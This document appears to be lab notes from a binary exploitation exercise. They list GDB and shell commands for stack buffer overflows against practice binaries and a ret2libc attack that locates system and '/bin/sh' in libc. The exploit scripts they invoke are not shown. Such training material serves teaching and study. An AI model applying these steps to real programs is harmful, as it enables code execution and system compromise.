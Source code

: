 # `overflow.x86.no`

## Debug session with GDB

    break *(return_input+32)

    run < <(python ./exploit.py -r 0xffffd4f8)

    hexdump $sp-0x100 0x200

    nearpc $sp+8 10

## Shell session

    ulimit -c unlimited

    ./overflow.x86.no < <(python exploit.py -r 0xffffd4f8)

    gdb ./overflow.x86.no core

    ./overflow.x86.no < <(python exploit.py -r 0xffffd548)

    python exploit.py -r 0xffffd558 | ./overflow.x86.no

# `victim.x86.no`

## Shell session
    
    ulimit -c unlimited

    sudo sysctl -w kernel.core_pattern=core

    python exploit_victim.py -r 0xdeadbeef | xargs ./victim.x86.no

    ./victim.x86.no $(python exploit_victim.py -r 0xdeadbeef)

    gdb ./victim.x86.no core

    ./victim.x86.no $(python exploit_victim.py -r 0xffffd2e0)

## Debug session with GDB
    
    run $(python exploit_victim.py -r 0xffffd2a0)


# Ret2libc of `victim.x86.no.nx`

    gdb ./victim.x86.no.nx

    print system

    search -s '/bin/sh'

    hexdump 0xf7f6ea0b 10

    ./victim.x86.no.nx $(python exploit_r2l.py)


